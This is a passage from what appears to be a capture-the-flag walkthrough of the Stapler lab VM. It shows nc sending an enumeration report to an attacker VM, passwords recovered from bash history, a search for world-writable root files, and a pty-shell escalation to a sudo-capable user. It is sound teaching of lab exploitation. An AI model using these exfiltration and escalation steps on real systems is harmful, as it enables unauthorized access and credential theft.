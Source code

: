 We'll push the LinEnum report to our attacker VM using `nc`

`$ nc 10.1.1.128 9005 < linenum-stapler-10-11-19`

`$ nc -lvp 9005 > linenum-report.txt`

The most interesting snippets from the LinEnum report are shown below:

```
[-] Kernel information:
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 i686 i686 GNU/Linux

[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(peter) gid=1000(peter) groups=1000(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)

[-] Accounts that have recently used sudo:
/home/peter/.sudo_as_admin_successful

[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/gcc
/usr/bin/curl

[-] Location and contents (if accessible) of .bash_history file(s):
[...snip...]
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
[...snip...]

```

Well then! It looks like we have credentials for two users, one of which has recently successfully used `sudo` as well as what appears to be a [vulnerable](https://www.exploit-db.com/exploits/39772) [version](https://www.exploit-db.com/exploits/40049) of the Linux kernel.

Further investigation also found what appears to be a world writeable cron job owned by `root`.

`find / -xdev -user root -perm -o+w -type f 2>/dev/null`

```
/var/crash/.lock
/usr/local/sbin/cron-logrotate.sh
```

# [](#header-1)Privilege Escalation

Lets try and use Peter's credentials.

```
su peter
su: must be run from a terminal
python -c "import pty; pty.spawn('/bin/bash')"
www-data@red:/dev/shm/staging$ su peter
su peter
Password: JZQuyIN5
red% whoami                                                                    
whoami
peter
sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
```